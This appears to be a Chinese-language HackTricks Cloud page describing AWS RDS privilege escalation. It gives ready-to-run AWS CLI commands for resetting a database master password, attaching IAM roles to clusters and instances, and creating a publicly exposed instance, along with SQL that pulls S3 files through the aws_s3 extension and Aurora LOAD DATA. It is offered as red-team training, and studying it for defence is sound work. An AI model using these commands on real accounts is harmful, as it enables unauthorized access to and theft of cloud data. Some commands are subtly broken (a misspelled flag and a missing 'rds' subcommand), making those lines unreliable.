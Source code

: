 # AWS - RDS Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## RDS - 关系数据库服务

有关 RDS 的更多信息，请查看：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

拥有该权限的攻击者可以**修改主用户的密码**，以及数据库内的登录：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
您需要能够**联系数据库**（它们通常仅在内部网络中可访问）。
{% endhint %}

**潜在影响：** 在数据库中查找敏感信息。

### rds-db:connect

根据[**文档**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)，具有此权限的用户可以连接到数据库实例。

### 滥用 RDS 角色 IAM 权限

#### Postgresql (Aurora)

{% hint style="success" %}
如果运行**`SELECT datname FROM pg_database;`**时发现名为**`rdsadmin`**的数据库，您就知道您在**AWS postgresql 数据库**中。
{% endhint %}

首先，您可以检查此数据库是否已用于访问任何其他 AWS 服务。您可以通过查看已安装的扩展来检查这一点：
```sql
SELECT * FROM pg_extension;
```
如果你发现类似 **`aws_s3`** 的东西，你可以假设这个数据库对 S3 **有某种访问权限**（还有其他扩展，如 **`aws_ml`** 和 **`aws_lambda`**）。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以在 **`AssociatedRoles`** 字段中查看 **集群是否附加了任何 IAM 角色**。如果有，你可以假设这个数据库是 **为访问其他 AWS 服务而准备的**。根据 **角色的名称**（或者如果你能获取 **角色的权限**），你可以 **猜测** 数据库具有的额外访问权限。

现在，要 **读取存储桶中的文件**，你需要知道完整路径。你可以用以下命令读取它：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
如果你拥有**原始 AWS 凭证**，你也可以使用它们访问 S3 数据，方法是：
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **不需要更改任何参数组变量** 就可以访问 S3。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
在 mysql 中，如果你运行查询 **`SELECT User, Host FROM mysql.user;`** 并且有一个用户叫 **`rdsadmin`**，你可以假设你在一个 **AWS RDS mysql 数据库** 中。
{% endhint %}

在 mysql 中运行 **`show variables;`**，如果变量如 **`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** 有值，你可以假设数据库已准备好访问 S3 数据。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以检查集群是否有任何 **关联角色**，这通常意味着可以访问 AWS 服务。

现在，要 **读取存储桶中的文件**，你需要知道完整路径。你可以用以下命令读取它：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

拥有权限 `rds:AddRoleToDBCluster` 和 `iam:PassRole` 的攻击者可以 **将指定角色添加到现有的 RDS 实例**。这可能允许攻击者 **访问敏感数据** 或修改实例中的数据。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在影响**：访问敏感数据或对RDS实例中的数据进行未经授权的修改。\
请注意，一些数据库需要额外的配置，例如Mysql，需要在参数组中指定角色ARN。

### `rds:CreateDBInstance`

仅凭此权限，攻击者可以在已经存在并附加了**IAM角色**的集群中创建一个**新实例**。他将无法更改主用户密码，但他可能能够将新数据库实例暴露于互联网：
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 测试
{% endhint %}

拥有权限 `rds:CreateDBInstance` 和 `iam:PassRole` 的攻击者可以 **创建一个附加指定角色的新 RDS 实例**。攻击者随后可能 **访问敏感数据** 或修改实例中的数据。

{% hint style="warning" %}
附加角色/实例配置文件的一些要求（来自 [**这里**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)）：

* 配置文件必须在您的账户中存在。
* 配置文件必须有一个 IAM 角色，Amazon EC2 有权限假设。
* 实例配置文件名称和关联的 IAM 角色名称必须以前缀 `AWSRDSCustom` 开头。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在影响**：访问敏感数据或对RDS实例中的数据进行未经授权的修改。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

拥有权限 `rds:AddRoleToDBInstance` 和 `iam:PassRole` 的攻击者可以 **将指定角色添加到现有的RDS实例**。这可能允许攻击者 **访问敏感数据** 或修改实例中的数据。

{% hint style="warning" %}
DB实例必须位于集群之外
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在影响**：访问RDS实例中的敏感数据或未经授权的数据修改。

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家(ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks培训GCP红队专家(GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
